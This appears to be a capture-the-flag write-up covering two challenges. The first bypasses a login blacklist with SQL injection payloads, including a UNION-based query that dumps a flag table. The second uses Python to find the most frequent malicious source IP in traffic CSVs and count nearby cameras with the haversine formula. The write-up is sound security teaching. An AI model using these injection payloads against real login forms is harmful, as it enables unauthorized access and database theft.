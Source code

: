 ### Web 101

There is a blacklist filter for `#` and `=`. Using `test' or 1-- -` gives us account credentials, but logging in with these does not give us the flag.

We could use a `UNION` based injection to dump the database and get the flag.

`username=test' or 1 UNION SELECT *, null from flag-- -&password=test' or 1 UNION SELECT *, null from flag-- -`

### Find the Malicious Attacks by Revo Force

We were given CSV files containing network traffic data, as well as a shapefile containing cameras in Singapore. We are tasked to find where most of the attacks are originating from, and the number of cameras within a 1.3km radius.

First, we obtain the most common `src_ip`, and find its corresponding latitude and longitude.

```python
import os, csv

SRC_IP_COL = 9
LABEL_COL = 14

files = [x for x in os.listdir() if x.endswith('.csv')]
results = {}

for file in files:
    with open(file, newline='') as csvfile:
        reader = csv.reader(csvfile, delimiter=',', quotechar='"')
        for row in reader:
            src_ip, label = row[SRC_IP_COL], row[LABEL_COL]
            # print(src_ip, label)

            if label == 'malicious':
                print(file)
                if src_ip in results:
                    results[src_ip] += 1
                else:
                    results[src_ip] = 1

print(results)
print(max(results.items(), key=lambda x: x[1]))
```

After, we can parse the shapefile using geopandas, and use the [haversine formula](https://en.wikipedia.org/wiki/Haversine\_formula) to determine the  great-circle distance between each camera and the `src_ip` location based on the latitude and longitudes.

```python
import geopandas as gpd
from math import radians, cos, sin, asin, sqrt


def haversine(lon1, lat1, lon2, lat2):
    """
    Calculate the great circle distance between two points 
    on the earth (specified in decimal degrees)
    """
    # convert decimal degrees to radians 
    lon1, lat1, lon2, lat2 = map(radians, [lon1, lat1, lon2, lat2])

    # haversine formula 
    dlon = lon2 - lon1 
    dlat = lat2 - lat1 
    a = sin(dlat/2)**2 + cos(lat1) * cos(lat2) * sin(dlon/2)**2
    c = 2 * asin(sqrt(a)) 
    r = 6371 # Radius of earth in kilometers. Use 3956 for miles
    return c * r


LAT = 1.327187
LONG = 103.946316
RADIUS = 1.3

shapefile = gpd.read_file("SPF_DTRLS.shp")
print(shapefile)

count = 0
for row in shapefile.itertuples():
    lat2, long2 = row.LATITUDE, row.LONGITUDE
    a = haversine(LONG, LAT, long2, lat2)

    print('Distance (km) : ', a)
    if a <= RADIUS:
        count += 1

print(count)
```
